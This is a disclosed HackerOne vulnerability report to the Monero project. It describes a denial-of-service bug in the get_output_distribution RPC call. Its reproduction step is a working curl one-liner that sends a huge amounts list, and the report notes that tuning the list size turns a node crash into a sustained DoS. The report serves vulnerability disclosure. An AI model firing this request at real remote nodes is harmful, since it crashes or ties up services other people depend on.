 # RPC call crashes node

## Report Details
- **Report ID**: 1379707
- **URL**: https://hackerone.com/reports/1379707
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-10-24T15:19:11.435Z
- **Disclosed**: 2022-08-20T03:41:29.301Z

## Reporter
- **Username**: xfang
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: monero

## Vulnerability Information
## Summary:
Passing a large list of amounts to the `get_output_distribution` call crashes a remote node, after maybe 90 seconds of keeping it busy.

## Releases Affected:

  * Probably all

## Steps To Reproduce:
```
values=`echo $(seq 0 500 900000)|sed -e 's/ /,/g'` ; curl http://127.0.0.1:38081/json_rpc -d '{"jsonrpc":"2.0","id":"0","method":"get_output_distribution","params":{"amounts": ['$values'], "from_height": 100, "cumulative": false}' -H 'Content-Type: application/json'
```
Reduce the 900000 number a bit and instead of crashing the daemon, it'll do a denial of service, like 90 seconds per call, making it hard for anyone else to use that call.


## Supporting Material/References:

  * Unnecessary. The attack is  straightforward and compelling.

## Housekeeping

Payment address: ████

## Impact

An attacker can crash any remote node that exposes `get_output_distribution` or tie up availability of that function call. I think that's serious.

## Attachments
No attachments
